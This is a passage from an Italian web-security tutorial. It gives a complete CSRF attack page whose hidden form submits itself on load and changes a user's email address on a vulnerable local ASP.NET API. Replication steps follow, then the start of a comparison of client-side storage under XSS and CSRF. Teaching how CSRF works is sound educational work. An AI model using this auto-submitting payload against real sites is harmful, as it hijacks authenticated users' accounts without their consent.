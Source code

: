 **Pagina Web Malevola (Attaccante - `attacco_csrf.html`):**

```html
<!DOCTYPE html>
<html>
<head>
	<title>Pagina Malevola CSRF</title>
</head>
<body>
	<h1>Questa è una pagina malevola!</h1>
	<p>Se sei autenticato sul sito vulnerabile, verrà eseguita un'azione indesiderata...</p>
	<form action="http://localhost:<PORTA_API>/cambiaemail" method="post" id="csrf_form">
		<input type="hidden" name="nuovoEmail" value="email.attaccante@esempio.com">
	</form>
	<script>
		document.getElementById('csrf_form').submit(); // Submit automatico del form
	</script>
</body>
</html>
```

**Replicazione dell'Attacco:**

1. Avviare l'API ASP.NET Minimal API sulla porta specificata (`<PORTA_API>`, ad esempio 5000).
2. Autenticarsi sul sito web vulnerabile (in questo caso, per semplicità, si simula solo l'autenticazione presupponendo di essere autenticati, senza implementare un vero sistema di login).
3. Aprire `attacco_csrf.html` in un browser **nello stesso browser in cui si è autenticati al sito vulnerabile**.
4. Visitando `attacco_csrf.html`, il form verrà automaticamente inviato al backend vulnerabile, cambiando (simulando) l'email dell'utente a `email.attaccante@esempio.com`, senza alcuna interazione diretta da parte della vittima, dimostrando la vulnerabilità CSRF.

Questo esempio dimostra come la mancanza di protezione CSRF sul backend permetta ad un attaccante di forzare azioni indesiderate per conto di un utente autenticato.

### Analisi delle memorie/storage sensibili `Lato Client` e vulnerabilità a XSS e CSRF

Diverse memorie lato client possono essere bersaglio o essere sfruttate in attacchi XSS e CSRF: variabili JavaScript, cookie, Session Storage, Local Storage

1. **Variabili JavaScript (in Memoria)**

   - **Cosa sono**: Variabili dichiarate in JavaScript che esistono nella memoria del browser **solo per la durata della pagina web corrente** (o fino a quando non vengono esplicitamente cancellate dal codice JavaScript).
   - **Vulnerabilità CSRF**: **Non direttamente vulnerabili a CSRF**. Gli attacchi CSRF mirano a far eseguire azioni *sul server*, sfruttando le sessioni di autenticazione. Le variabili JavaScript sono puramente lato client e non influenzano direttamente le richieste al server.
   - **Vulnerabilità XSS**: **Altamente vulnerabili a XSS**. Se un attaccante riesce a iniettare codice XSS nella pagina, **può accedere e manipolare liberamente tutte le variabili JavaScript presenti nella pagina**, inclusi dati sensibili (token, informazioni personali) che potrebbero essere erroneamente memorizzati in variabili JavaScript. Questo è uno dei principali pericoli dell'XSS.

2. **Cookie HTTP**
